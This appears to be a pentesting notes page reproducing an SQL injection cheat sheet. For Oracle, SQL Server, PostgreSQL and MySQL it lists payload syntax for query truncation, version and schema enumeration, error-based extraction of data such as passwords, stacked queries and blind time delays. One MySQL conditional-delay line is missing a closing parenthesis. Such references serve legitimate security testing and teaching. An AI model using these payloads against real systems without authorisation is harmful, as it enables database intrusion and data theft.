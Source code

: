 # SQLi Cheat sheet

{% embed url="https://pentestmonkey.net/category/cheat-sheet/sql-injection" %}

## SQL injection cheat sheet

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

### String concatenation <a href="#string-concatenation" id="string-concatenation"></a>

You can concatenate together multiple strings to make a single string.

| Oracle     | `'foo'\|\|'bar'`                                                                                                 |
| ---------- | ---------------------------------------------------------------------------------------------------------------- |
| Microsoft  | `'foo'+'bar'`                                                                                                    |
| PostgreSQL | `'foo'\|\|'bar'`                                                                                                 |
| MySQL      | <p><code>'foo' 'bar'</code> [Note the space between the two strings]<br><code>CONCAT('foo','bar')</code><br></p> |

### Substring <a href="#substring" id="substring"></a>

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

| Oracle     | `SUBSTR('foobar', 4, 2)`    |
| ---------- | --------------------------- |
| Microsoft  | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL      | `SUBSTRING('foobar', 4, 2)` |

### Comments <a href="#comments" id="comments"></a>

You can use comments to truncate a query and remove the portion of the original query that follows your input.

| Oracle     | <p><code>--comment</code><br></p>                                                                                          |
| ---------- | -------------------------------------------------------------------------------------------------------------------------- |
| Microsoft  | <p><code>--comment</code><br><code>/*comment*/</code></p>                                                                  |
| PostgreSQL | <p><code>--comment</code><br><code>/*comment*/</code></p>                                                                  |
| MySQL      | <p><code>#comment</code><br><code>-- comment</code> [Note the space after the double dash]<br><code>/*comment*/</code></p> |

### Database version <a href="#database-version" id="database-version"></a>

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

| Oracle     | <p><code>SELECT banner FROM v$version</code><br><code>SELECT version FROM v$instance</code><br></p> |
| ---------- | --------------------------------------------------------------------------------------------------- |
| Microsoft  | `SELECT @@version`                                                                                  |
| PostgreSQL | `SELECT version()`                                                                                  |
| MySQL      | `SELECT @@version`                                                                                  |

### Database contents <a href="#database-contents" id="database-contents"></a>

You can list the tables that exist in the database, and the columns that those tables contain.

| Oracle     | <p><code>SELECT * FROM all_tables</code><br><code>SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'</code></p>                               |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Microsoft  | <p><code>SELECT * FROM information_schema.tables</code><br><code>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'</code><br></p> |
| PostgreSQL | <p><code>SELECT * FROM information_schema.tables</code><br><code>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'</code><br></p> |
| MySQL      | <p><code>SELECT * FROM information_schema.tables</code><br><code>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'</code><br></p> |

### Conditional errors <a href="#conditional-errors" id="conditional-errors"></a>

You can test a single boolean condition and trigger a database error if the condition is true.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`      |
| ---------- | --------------------------------------------------------------------------------------- |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`          |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

### Extracting data via visible error messages <a href="#extracting-data-via-visible-error-messages" id="extracting-data-via-visible-error-messages"></a>

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

| Microsoft  | `SELECT 'foo' WHERE 1 = (SELECT 'secret') > Conversion failed when converting the varchar value 'secret' to data type int.` |
| ---------- | --------------------------------------------------------------------------------------------------------------------------- |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int) > invalid input syntax for integer: "secret"`                     |
| MySQL      | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret'))) > XPATH syntax error: '\secret'`               |

### Batched (or stacked) queries <a href="#batched-or-stacked-queries" id="batched-or-stacked-queries"></a>

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

| Oracle     | `Does not support batched queries.`                                                      |
| ---------- | ---------------------------------------------------------------------------------------- |
| Microsoft  | <p><code>QUERY-1-HERE; QUERY-2-HERE</code><br><code>QUERY-1-HERE QUERY-2-HERE</code></p> |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE`                                                             |
| MySQL      | `QUERY-1-HERE; QUERY-2-HERE`                                                             |

**Note**

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

### Time delays <a href="#time-delays" id="time-delays"></a>

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| ---------- | ------------------------------------- |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT SLEEP(10)`                    |

### Conditional time delays <a href="#conditional-time-delays" id="conditional-time-delays"></a>

You can test a single boolean condition and trigger a time delay if the condition is true.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| ---------- | ---------------------------------------------------------------------------------------------------------------- |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`                                                                |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`                                  |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a'`                                                                    |
